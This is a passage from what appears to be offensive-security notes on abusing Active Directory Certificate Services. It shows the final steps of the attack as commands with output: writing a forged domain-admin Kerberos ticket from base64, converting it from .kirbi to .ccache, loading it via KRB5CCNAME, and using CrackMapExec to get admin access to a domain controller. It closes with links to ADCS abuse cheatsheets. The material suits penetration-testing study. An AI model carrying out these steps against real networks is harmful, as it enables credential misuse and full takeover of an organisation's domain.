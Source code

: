 ### Convert the ticket from base to file

```plain
[IO.File]::WriteAllBytes("Z:\johnDomainAdmin.kirbi", [Convert]::FromBase64String("doIGPDCCBjig[REDACTED]FuZC5sb2NhbA=="))
```

### Convert .kirbi to .ccache

Use [ticketConverter.py]({{< ref "ticketconverter" >}}).

```plain
python3 ticket_converter.py johnDomainAdmin.kirbi johnDomainAdmin.ccache
Converting kirbi => ccache
```

Make the `.ccache` available for Kerberos authentication.

```plain
export KRB5CCNAME=admin.ccache
```

### CrackMapExec

```plain
$ cme smb DC01PKI.offsec.nl --use-kcache
SMB         DC01PKI.offsec.nl 445    DC01PKI         [*] Windows Server 2019 Standard 17763 x64 (name:DC01PKI) (domain:offsec.nl) (signing:True) (SMBv1:True)
SMB         DC01PKI.offsec.nl 445    DC01PKI         [+] offsec.nl\johnDomainAdmin (Pwn3d!)
```

## URL List

- [Github.com - Certi](https://github.com/zer1t0/certi)
- [Github.com - Active Directory Attacks - Active Directory Certificate Services](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#active-directory-certificate-services)
- [Gist.github.com - Flangvik - PKI Abuse Cheatsheet](https://gist.github.com/Flangvik/15c3007dcd57b742d4ee99502440b250)
- [Ppn.snovvcrash.rocks - ADCS Abuse](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/ad-cs-abuse)
- [Crowe.com - Exploiting AD CS: A quick look at ESC1 and ESC8](https://www.crowe.com/cybersecurity-watch/exploiting-ad-cs-a-quick-look-at-esc1-esc8)
